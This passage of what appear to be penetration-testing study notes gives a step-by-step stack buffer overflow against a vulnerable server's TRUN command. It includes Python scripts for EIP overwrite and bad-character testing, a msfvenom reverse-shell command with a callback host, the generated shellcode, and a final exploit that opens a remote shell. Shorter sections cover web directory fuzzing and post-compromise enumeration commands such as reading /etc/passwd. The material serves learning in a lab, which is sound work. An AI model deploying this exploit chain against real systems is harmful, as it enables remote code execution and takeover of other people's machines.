q0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D"

try:
        s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
        s.connect(('192.168.1.2',9999))
        s.send(('TRUN / .:/' + offset).encode())
        s.close()
        
except:
        print(' Error connecting to server')
        sys.exit()
```

and then run it and see the value of the EIP which is the offset we are looking for 


now we will try to find where is that address using the same metasploit tool

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 43376F43
```

and this is what we got :

and means that at at 2001 bytes we can control the **EIP**


### Overwriting The EIP

so we have 2001 byte and 4 bytes for EIP it self , our target is the 4 bytes so let’s modify our code and run it

```python
#!/bin/python3

import sys,socket
from time import sleep

#fill all rigesters with A(41) but the EIP with B(42) to make sure we got the exact 4 bytes right 
shellcode= "A" * 2001 + "B" * 4
try:
        s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
        s.connect(('192.168.1.2',9999))
        s.send(('TRUN / .:/' + shellcode).encode())
        s.close()
        
        
except:
        print(' Error connecting to server')
        sys.exit()
```


### Finding The Bad Chars

to find them we can send all the hex chars and remove them one by one so lets modify our code

```python
#!/bin/python3

import sys,socket
from time import sleep

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

#fill all rigesters with A(41) but the EIP with B(42) to make sure we got the exact 4 bytes right 
shellcode= "A" * 2002 + "B" * 4 + badchars
try:
        s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
        s.connect(('192.168.1.2',9999))
        s.send(('TRUN / .:/' + shellcode).encode())
        s.close()
        
        
except:
        print(' Error connecting to server')
        sys.exit()
```

we run the code and go to the immunity debugger


- now start search in **DUMP** if there are any char in wrong place or removed
- when u find consecutive bad chars u have to worry about the first of them not the second (if u removed both it will still work)
- sometimes when a bad char has been removed it substitute with another char (try to search for that char will be easiest to identify the bad chars but take care not all of them are bad sometimes there’s that that char in it’s right place not a substitution)

### Finding The Right Module

first download [mona.py](http://mona.py) module and put it in the pycommands folder so we can use it in immunity debugger

second we find the right module in mona , the right module will have false in most of memory protection and will be attached and will be in the path of our VULN program

in our case the right one is the first one


we need to know which return address is available for us to make JMP ESP command and using our module in order to control the EIP , so we need to search for it but by the OPCODE(hexa decimal equivalent to assembly code) after that we search for the best pointer to it :


 I’ll try the first one, we should try them till it works let’s modify our code:

```python
#!/bin/python3

import sys,socket
from time import sleep

#625011af that was our return adderess for the right Module and JMP command

#here instead of having 4B's in EIP we will put our return address so the EIP now have a JMP code and the JMP code will take us to our mallicious code
shellcode= "A" * 2002 + "\xaf\11\50\x62" #we write in revers cuz it's an little indian format(it put the lower order byte at the lowest address)
try:
        s=socket.socket(socket.AF_INET , socket.SOCK_STREAM)
        s.connect(('192.168.1.2',9999))
        s.send(('TRUN / .:/' + shellcode).encode())
        s.close()
        
        
except:
        print(' Error connecting to server')
        sys.exit()
```

go to immunity and start to follow that return address we prepared and make a breakpoint by pressing F2 (this will make the program pause at this point actually at the EIP)

let’s run our script after that

> note(the actual size was 2001 but when i tested by putting B’s in the EIP it doesn’t work so i tried 2002 and it worked perfectly until that point ,, but now there was some problem somehow i couldn’t reach our breakpoint address so i tried to make it 2001 and it worked 😅 so I just wanted to explain all this )
> 


after we ran the script we should see that the EIP in a breakpoint and has been controlled 🤠😮‍💨 


it’s the time to create our shell we will use **MSVENOM and modify our script** 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

- -p for payload
- EXITFUNC= thread to make it more stable
- -f for format
- -a for architecture
- -b for removing the bad chars , in our case it’s just the null byte

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

#b for encoding
overflow = (b"\xbf\xab\x88\xa2\xd2\xda\xd4\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
b"\x52\x83\xee\xfc\x31\x7e\x0e\x03\xd5\x86\x40\x27\xd5\x7f\x06"
b"\xc8\x25\x80\x67\x40\xc0\xb1\xa7\x36\x81\xe2\x17\x3c\xc7\x0e"
b"\xd3\x10\xf3\x85\x91\xbc\xf4\x2e\x1f\x9b\x3b\xae\x0c\xdf\x5a"
b"\x2c\x4f\x0c\xbc\x0d\x80\x41\xbd\x4a\xfd\xa8\xef\x03\x89\x1f"
b"\x1f\x27\xc7\xa3\x94\x7b\xc9\xa3\x49\xcb\xe8\x82\xdc\x47\xb3"
b"\x04\xdf\x84\xcf\x0c\xc7\xc9\xea\xc7\x7c\x39\x80\xd9\x54\x73"
b"\x69\x75\x99\xbb\x98\x87\xde\x7c\x43\xf2\x16\x7f\xfe\x05\xed"
b"\xfd\x24\x83\xf5\xa6\xaf\x33\xd1\x57\x63\xa5\x92\x54\xc8\xa1"
b"\xfc\x78\xcf\x66\x77\x84\x44\x89\x57\x0c\x1e\xae\x73\x54\xc4"
b"\xcf\x22\x30\xab\xf0\x34\x9b\x14\x55\x3f\x36\x40\xe4\x62\x5f"
b"\xa5\xc5\x9c\x9f\xa1\x5e\xef\xad\x6e\xf5\x67\x9e\xe7\xd3\x70"
b"\xe1\xdd\xa4\xee\x1c\xde\xd4\x27\xdb\x8a\x84\x5f\xca\xb2\x4e"
b"\x9f\xf3\x66\xc0\xcf\x5b\xd9\xa1\xbf\x1b\x89\x49\xd5\x93\xf6"
b"\x6a\xd6\x79\x9f\x01\x2d\xea\x60\x7d\x2c\xee\x08\x7c\x2e\xff"
b"\x94\x09\xc8\x95\x34\x5c\x43\x02\xac\xc5\x1f\xb3\x31\xd0\x5a"
b"\xf3\xba\xd7\x9b\xba\x4a\x9d\x8f\x2b\xbb\xe8\xed\xfa\xc4\xc6"                                                                           
b"\x99\x61\x56\x8d\x59\xef\x4b\x1a\x0e\xb8\xba\x53\xda\x54\xe4"
b"\xcd\xf8\xa4\x70\x35\xb8\x72\x41\xb8\x41\xf6\xfd\x9e\x51\xce"
b"\xfe\x9a\x05\x9e\xa8\x74\xf3\x58\x03\x37\xad\x32\xf8\x91\x39"
b"\xc2\x32\x22\x3f\xcb\x1e\xd4\xdf\x7a\xf7\xa1\xe0\xb3\x9f\x25"
b"\x99\xa9\x3f\xc9\x70\x6a\x5f\x28\x50\x87\xc8\xf5\x31\x2a\x95"
b"\x05\xec\x69\xa0\x85\x04\x12\x57\x95\x6d\x17\x13\x11\x9e\x65"
b"\x0c\xf4\xa0\xda\x2d\xdd")

#625011af that was our return adderess for the right Module and JMP command

#here instead of having 4B's in EIP we will put our return address so the EIP now have a JMP code and the JMP code will take us to our mallicious code
#the first 2001 A's will take us to the EIP
#when we get to the EIP we put our JMP address,the JMP address will take us to the instructions that we provide 
#the instructions we provide is our msvenom shell code we just generated 
#the "\x90" is NOPs is just padding between our jmp and shell code we try more than one size like 16,32..

shellcode = b"A" * 2002 + b"\xaf\x11\x50\x62" + b"\x90" * 32 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.2',9999))

	payload = b"TRUN /.:/" + shellcode

	s.send((payload))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()
```

after that open netcat session listening on port u provided when make the shell and run the script and hopefully u will get the shell on the machine

# Web Applications

## Web App Enum

Web App Enum refers to the process of identifying and categorizing different components and functionalities of a web application, such as pages, forms, input fields, buttons, and links, in order to assess its security posture and potential vulnerabilities.

we can use wappalyzer extension to know the tech of the web app (the OS on which the app is running on , the web server, the Programming language and sometimes the database server )   OR  using cmmand line tool whatweb

it’s important to know which database service the app using in order to know it u have to fuzz the app so it replies u with an error 

As we speak about fuzzing, let’s fuzz the application to know what directories and files it has we will use wfuzz :

```bash
wefuzz -c -z file,usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404,301,302 http://example.com/FUZZ
```

or using GUI tool like dirbuster

---

testing vulns in web app can be done by some automated scanners and tools like nessus,acunetix,burp,zap,Nikto but u can’t rely on them, u ‘ve to test manually

coming soon

# ****Privilege Escalation****

first thing we need know which user we are currently using by commands: **whoami** and **net user** to get more details(Windows ) and on linux we can use id command for more details or reading passwd file


```bash
cat /etc/passwd
```

then we need know which machine we are on and what it can do so we can check it’s name by **hostname** command in both linux and Windows


but we need more info about the OS and Kernal so we will use **systeminfo(Windows)** command what concern us here is **(OS Name,OS Version,System Type)**

```bash
systeminfo
```


in Linux use **uname -a** 

```bash
uname -a
or 
cat /etc/issue
```


## Network Enum

Ok so now we know some info about the OS then we start to look for running processes in order to find any process that u can deal with and at the same it uses higher privileges on Windows :

```powershell
tasklist /svc
```

*it shows u the procesess that are running on the same account not the higher priv*


on linux :

```bash
ps aux
```


since we control a machine in internal network we need to scan the network for new interesting hosts or ports and perform pivoting 

in windows :

```bash
ipconfig /all
```


```bash
route print
```


```bash
netstat -ano
```


**in linux**:


for Open Ports:

```bash
ss -anp
```


## Firewall Enum
